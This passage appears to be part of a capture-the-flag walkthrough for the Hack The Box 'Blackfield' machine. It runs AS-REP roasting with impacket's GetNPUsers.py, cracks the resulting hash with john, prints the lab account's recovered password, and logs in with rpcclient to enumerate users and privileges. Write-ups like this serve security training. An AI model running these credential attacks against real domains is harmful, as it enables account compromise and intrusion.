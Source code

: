 ```ruby
ZMiick
ZScozzari
ZTimofeeff
ZWausik

```

* now it's time to get TGT for any valid user.

# []()Using GetNPuser.py to get TGT

> **since now we have a list of users,so we can use GetNPuser from impacket to generate a TGT for any valid user.**

> **python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py BLACKFIELD.LOCAL/ -usersfile users.txt -format john -outputfile TGT -dc-ip 10.10.10.192**

![](https://i.ibb.co/9qLqHFV/tgt.png)

* we got a TGT for user **support**, let's crack it with john now.

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt TGT**

![](https://i.ibb.co/YR3zjqy/support-pass.png)

> Username: **SUPPORT**, Password: **#00^BlackKnight**

# []() login to RPCCLIENT

> **rpcclient 10.10.10.192 -U support**

![](https://i.ibb.co/r4D7K30/rpcclient.png)

* let's enum domain users.

![](https://i.ibb.co/VSSzd19/enumuserrs.png)

* let's check our privilegs.

```ruby

rpcclient $> enumprivs
found 35 privileges

SeCreateTokenPrivilege 		0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege 		0:3 (0x0:0x3)
SeLockMemoryPrivilege 		0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege 		0:5 (0x0:0x5)
SeMachineAccountPrivilege 		0:6 (0x0:0x6)
SeTcbPrivilege 		0:7 (0x0:0x7)
SeSecurityPrivilege 		0:8 (0x0:0x8)
SeTakeOwnershipPrivilege 		0:9 (0x0:0x9)
SeLoadDriverPrivilege 		0:10 (0x0:0xa)
SeSystemProfilePrivilege 		0:11 (0x0:0xb)
SeSystemtimePrivilege 		0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege 		0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege 		0:14 (0x0:0xe)
SeCreatePagefilePrivilege 		0:15 (0x0:0xf)
SeCreatePermanentPrivilege 		0:16 (0x0:0x10)
SeBackupPrivilege 		0:17 (0x0:0x11)
SeRestorePrivilege 		0:18 (0x0:0x12)
SeShutdownPrivilege 		0:19 (0x0:0x13)
SeDebugPrivilege 		0:20 (0x0:0x14)
SeAuditPrivilege 		0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege 		0:22 (0x0:0x16)
```